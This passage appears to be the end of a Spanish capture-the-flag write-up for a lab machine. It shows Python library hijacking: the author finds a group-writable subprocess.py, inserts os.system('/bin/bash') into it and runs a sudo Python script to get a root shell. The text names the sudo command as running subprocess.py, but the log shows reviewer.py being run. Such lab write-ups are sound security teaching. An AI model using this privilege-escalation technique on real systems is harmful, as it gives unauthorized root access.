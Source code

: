 ~~~bash
elohim@principle:~$ find / -name "subprocess.py" -ls 2>/dev/null
    19941     84 -rw-rw-r--   1 root     sml         85746 Mar 13 08:18 /usr/lib/python3.11/subprocess.py
    20391      8 -rw-r--r--   1 root     root         7405 Mar 13 08:18 /usr/lib/python3.11/asyncio/subprocess.py
elohim@principle:~$ id
uid=1001(elohim) gid=1001(elohim) groups=1001(elohim),1002(sml)
~~~

Como pertenecemos al grupo sml, tenemos permisos de escritura, así que todo apunta a un python library hijacking.

Bastará con introducir en el fichero subprocess.py la instrucción `os.system("/bin/bash")`.

Finalmente si ejecutamos `sudo python3 /usr/lib/python3.11/subprocess.py` obtendremos el root:

~~~bash
elohim@principle:/opt$ sudo python3 reviewer.py 
root@principle:/opt# cd /root
root@principle:~# ls
root.txt
root@principle:~# cat root.txt
CONGRATULATIONS, the system has been pwned!
          _______
        @@@@@@@@@@@
      @@@@@@@@@@@@@@@
     @@@@@@@222@@@@@@@
    (@@@@@/_____\@@@@@)
     @@@@(_______)@@@@
      @@@{ " L " }@@@
       \@  \ - /  @/
        /    ~    \
      / ==        == \
    <      \ __ /      >
   / \          |    /  \
 /    \       ==+==       \
|      \     ___|_         |
| \//~~~|---/ * ~~~~  |     }
{  /|   |-----/~~~~|  |    /
 \_ |  /           |__|_ /


+w*************rg/
~~~

Máquina finalizada. Superamos nuevamente el write-up más largo hasta la fecha. 

Ha sido una nueva experiencia para mí, pero muy gratificante donde se aprenden muchas cosas también. Espero que sea la primera de varias y que os haya gustado.

Agradecer a **sML** por subirla a la plataforma y también a los amiguetes de "0G_h4x0r2" por hacer de betatesters.